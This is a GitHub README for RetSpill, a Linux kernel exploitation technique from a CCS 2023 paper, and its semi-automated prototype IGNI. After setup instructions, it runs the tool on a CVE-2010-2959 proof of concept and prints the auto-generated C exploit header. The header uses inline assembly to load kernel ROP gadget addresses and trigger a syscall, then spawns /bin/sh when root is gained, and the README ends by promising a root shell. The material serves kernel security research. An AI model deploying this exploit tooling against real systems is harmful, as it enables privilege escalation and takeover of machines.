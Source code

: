 # RetSpill

RetSpill is a Linux kernel exploitation technique.

It uses the fact that there are already user-controllable data readily on the kernel stack when attackers obtain CFHP (control-flow hijacking primitive).
Since the kernel stack for a specific thread (task) is shared, attackers can spill controlled data on the kernel stack before hand, and use stack shifting gadgets to redirect the control-flow (when CFHP is obtained) to the controlled region to launch code-reuse attack.

Using clever downstream usage of this fact, a CFHP can be turned into unlimited arbitrary read/write/execute without sacrificing the exploit reliability for heap-based vulnerability. This is because we can overwrite the function pointer on heap with a stack-shifting gadget, and invoke the function pointer again and again in different task-context. Most importantly, in each invocation, the payload on stack can be different, leading to invoking different payload without manipulating the heap, thus without introducing exploit reliability degradation.

In this work, we demonstrate that this technique is so simple that it can be semi-automated with our prototype, IGNI.

This repository contains the dataset we used in the paper and our research prototype IGNI.

# Paper

To be presented at CCS 2023

# IGNI

The name is a reference to a magical sign, [Igni](https://witcher.fandom.com/wiki/Igni), in the video game [Witcher 3: Wild Hunt](https://witcher.fandom.com/wiki/Igni#The_Witcher_3:_Wild_Hunt).
Igni can cast a burst of flame to enemies and and set enemies on fire if they are spilled with flammable substances, just like userspace input ;).

## Setup

## Method 1: Use Docker
Follow Method2-step3 to build the file system image and then run
~~~
docker build -t retspill .
~~~
to build the docker image.
Then run
~~~
docker run --privileged -it --rm retspill bash
~~~
to play with IGNI.
Notice that `privileged` is necessary because we want to run qemu inside docker with kvm acceleration.

## Method 2: Build from source

### Step 1: Install Dependencies
Install rust as instructed by its [official website](https://www.rust-lang.org/tools/install).
~~~
cargo install ropr
~~~

### Step 2: Build QEMU
Igni uses QEMU v7.2.0 internally and it has to be v7.2.0. QEMU with version lower or higher than v7.2.0 has issues reconnecting to gdb after snapshot restoration.
~~~
git clone -b v7.2.0 --depth 1 https://git.qemu.org/git/qemu.git
mkdir qemu/build && cd qemu/build && ../configure --target-list=x86_64-softmmu --python=`which python3` --disable-debug-info --enable-slirp && make -j`nproc`
~~~

### Step 3: Build File System Image
~~~
cd scripts/create-image/ && ./create-image.sh && cd ../..
~~~

## Sample Usage
Run the following command, where `<retspill>/exploit_env/CVEs/CVE-2010-2959/poc/poc` is a proof-of-concept binary that will crash the kernel at `PC==0xffffffffdeadbeef`.
~~~
python3 analyzer.py -k <retspill>/exploit_env/CVEs/CVE-2010-2959/kernel/arch/x86/boot/bzImage -e <retspill>/exploit_env/CVEs/CVE-2010-2959/poc/poc
~~~
After about 5-10 minutes, the system will output something like the following:
~~~
unsigned long pivot = 0xffffffff8194609e;
==============================================================
/******************************************************************/
/*************************AUTO GENERATED***************************/
#define _GNU_SOURCE
#ifndef va_start
#include <stdarg.h>
#endif
#ifndef assert
#include <assert.h>
#endif
#ifndef signal
#include <signal.h>
#endif
#ifndef sched_setaffinity
#include <sched.h>
#endif

// we need this because rcx may not be restored in the trampoline
// so it will crash during kernel-user switch
void get_shell(int signum) {
    printf("uid: %d\n", getuid());
    system("/bin/sh");
    while(1);
}

void __attribute__((constructor)) _igni_init() {
    signal(SIGSEGV, get_shell);
    signal(SIGTRAP, get_shell);
}

unsigned long _args[6];
unsigned long _arg_num = 0;
void __trigger()
{
    
    __asm__(".intel_syntax noprefix;"
            "push rbp;"

            "mov rcx, %0;"
            "mov rdi, [rcx+8*0];"
            "mov rsi, [rcx+8*1];"
            "mov rdx, [rcx+8*2];"
            "mov r10, [rcx+8*3];"
            "mov r8, [rcx+8*4];"
            "mov r9, [rcx+8*5];"

                        "mov rbx, 0xffffffff81e001bb;"
                        "mov rbp, 0xffffffff8244ab00;"
                        "mov r12, 0xffffffff810d0ad0;"
                        "mov r13, 0xffffffff81a373ec;"
                        "mov r10, 0xffffffff81c00162;"
            
            "mov rax, 16;"
            "syscall;"
            "pop rbp;"
            ".att_syntax;"
            : : "r"(_args));
}

void _trigger(int num_args, ...)
{
    va_list ap;
    va_start(ap, num_args);
    for(int i=0; i<num_args; i++) {
        _args[_arg_num++] = va_arg(ap, unsigned long);
    }
    va_arg(ap, unsigned long);
    va_end(ap);

    __asm__(".intel_syntax noprefix;"
            "call __trigger;"
            ".att_syntax;");
    _arg_num = 0;
    if(getuid() == 0) get_shell(0);
}

#define NUMARGS(...)  (sizeof((unsigned long[]){__VA_ARGS__})/sizeof(unsigned long))
#define ignite(...) _trigger(NUMARGS(__VA_ARGS__), __VA_ARGS__ )
/*************************AUTO GENERATED***************************/
/******************************************************************/
~~~

All you need to do is to:
1. include the generated header file
2. hijack the kernel control-flow to `unsigned long pivot = 0xffffffff8194609e;`
3. change how you invoke the triggering system call to `ignite(...)`
Then you can enjoy your root shell!!!

A sample result can be found at `<retspill>/exploit_env/CVEs/CVE-2010-2959/poc/exp.c` (the original is poc.c)
